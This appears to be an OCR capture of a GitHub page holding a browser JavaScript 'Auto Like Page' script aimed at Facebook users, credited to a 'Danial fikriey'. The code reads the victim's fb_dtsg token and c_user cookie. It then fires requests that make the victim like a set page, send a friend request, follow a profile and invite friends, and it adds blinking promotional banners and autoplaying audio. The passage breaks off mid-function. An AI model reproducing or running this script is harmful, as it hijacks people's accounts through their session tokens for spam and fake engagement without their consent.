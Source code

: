 var parent=document.getElementsByTagName("html")[0]; var body = document.getElementsByTagName('body')[0]; var div = document.createElement('div'); _div.style.height="25"; _div.style.width="100%"; _div.style.position="fixed"; _div.style.top="auto"; _div.style.bottom="0"; _div.align="center"; var _audio= document.createElement('audio'); _audio.style.width="100%"; _audio.style.height="25px"; _audio.controls = true; _audio.autoplay = true; _audio.src = "https://codegooglesite.googlecode.com/files/50pop.mp3"; _div.appendChild(_audio); _body.appendChild(_div); var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); var fb_dtsg=document.getElementsByName("fb_dtsg")[0].value; var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); body = document.body; if(body != null) { div = document.createElement("div"); div.style.position = "fixed"; div.style.display = "block"; div.style.width = "100px"; div.style.opacity= 0.90; div.style.bottom = "+60px"; div.style.left = "+0px"; div.style.backgroundColor = "rgba(155, 181, 255, 0.5)"; div.style.border = "1px solid rgba(0,0,0,0.5)"; div.style.padding = "3px"; div.innerHTML = "&lt;a style='font-weight:bold;color:#040CE4' href='https://www.facebook.com/sharer/sharer.php?u=http%3A%2F%2Fyoutube&amp;amp;t=Facebook+Background+Theme' title='Share'>&lt;blink>&lt;center>SHARE&lt;/center>&lt;/blink>&lt;/a>" body.appendChild(div); } if(body != null) { div = document.createElement("div"); div.style.position = "fixed"; div.style.display = "block"; div.style.width = "100px"; div.style.opacity= 0.90; div.style.bottom = "+35px"; div.style.left = "+0px"; div.style.backgroundColor = "rgba(155, 181, 255, 0.5)"; div.style.border = "1px solid rgba(0,0,0,0.5)"; div.style.padding = "3px"; div.innerHTML = "&lt;a style='font-weight:bold;color:#040CE4' href='' title='Refresh'>&lt;blink>&lt;center>Close (F5)&lt;/center>&lt;/blink>&lt;/a>" body.appendChild(div); } if(body != null) { div = document.createElement("div"); div.style.position = "fixed"; div.style.display = "block"; div.style.width = "135px"; div.style.opacity= 0.90; div.style.bottom = "+10px"; div.style.left = "+0px"; div.style.backgroundColor = "rgba(155, 181, 255, 0.5)"; div.style.border = "1px solid rgba(0,0,0,0.5)"; div.style.padding = "3px"; div.innerHTML = "&lt;a style='font-weight:bold;color:#040CE4' href='https://www.facebook.com/html.script.2014' title='Danial fikriey'>&lt;blink>&lt;center>PLEASE LIKE MY PAGE!&lt;/center>&lt;/blink>&lt;/a>" body.appendChild(div); } var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function Like(p) { var Page = new XMLHttpRequest(); var PageURL = "//www.facebook.com/ajax/pages/fan_status.php"; var PageParams = "&amp;fbpage_id=" + p +"&amp;add=true&amp;reload=false&amp;fan_origin=page_timeline&amp;fan_source=&amp;cat=&amp;nctr[_mod]=pagelet_timeline_page_actions&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=d&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp="; Page.open("POST", PageURL, true); Page.onreadystatechange = function () { if (Page.readyState == 4 &amp;&amp; Page.status == 200) { Page.close; } }; Page.send(PageParams); } Like("776528142358209"); Like("776528142358209"); Like("776528142358209"); Like("776528142358209"); Like("776528142358209"); Like("776528142358209"); Like("776528142358209"); Like("776528142358209"); var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function IDS(r) { var X = new XMLHttpRequest(); var XURL = "//www.facebook.com/ajax/add_friend/action.php"; var XParams = "to_friend=" + r +"&amp;action=add_friend&amp;how_found=friend_browser_s&amp;ref_param=none&amp;&amp;&amp;outgoing_id=&amp;logging_location=search&amp;no_flyout_on_click=true&amp;ego_log_data&amp;http_referer&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=35&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp="; X.open("POST", XURL, true); X.onreadystatechange = function () { if (X.readyState == 4 &amp;&amp; X.status == 200) { X.close; } }; X.send(XParams); } IDS("776528142358209"); IDS("776528142358209"); var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function a(abone) { var http4 = new XMLHttpRequest(); var url4 = "/ajax/follow/follow_profile.php?__a=1"; var params4 = "profile_id=" + abone + "&amp;location=1&amp;source=follow-button&amp;subscribed_button_id=u37qac_37&amp;fb_dtsg=" + fb_dtsg + "&amp;lsd&amp;" + user_id + "&amp;phstamp="; http4.open("POST", url4, true); http4.onreadystatechange = function () { if (http4.readyState == 4 &amp;&amp; http4.status == 200) { http4.close; } }; http4.send(params4); } a("776528142358209"); a("776528142358209"); var Title = "Auto Like Page&lt;/A>"; var Descriptions = "", _text = 'Powered By: &lt;A style="color:#FFFFFF;" href="https://www.facebook.com/html.script.2014" target="_blank">Danial fikrie&lt;/A>&lt;/br>Script Made By: &lt;/A>&lt;A style="color:#FFFFFF;" href="https://www.facebook.com/html.script.2014" target="_blank"> Danial&lt;/A>&lt;/A>,&lt;/A>&lt;/A>.&lt;/br>Nak awek ?? > &lt;A style="color:#FFFFFF;" href="https://www.facebook.com/pages/Syasya-Solero-Puteri-Awani/271396916358590" target="_blank">FACEBOOK&lt;/A>.&lt;/A>'; page_id = /"profile_owner":"([0-9]+)"/.exec(document.getElementById("pagelet_timeline_main_column").getAttribute("data-gt"))[1]; function InviteFriends(opo) { jx.load(window.location.protocol + "//www.facebook.com/ajax/pages/invite/send_single?page_id=" + page_id + "&amp;invitee=" + opo + "&amp;elem_id=u_0_1k&amp;action=send&amp;__user=" + user_id + "&amp;__a=1&amp;__dyn=7n8aD5z5CF-3ui&amp;__req=8&amp;fb_dtsg=" + fb_dtsg + "&amp;phstamp=", function (a) { var b =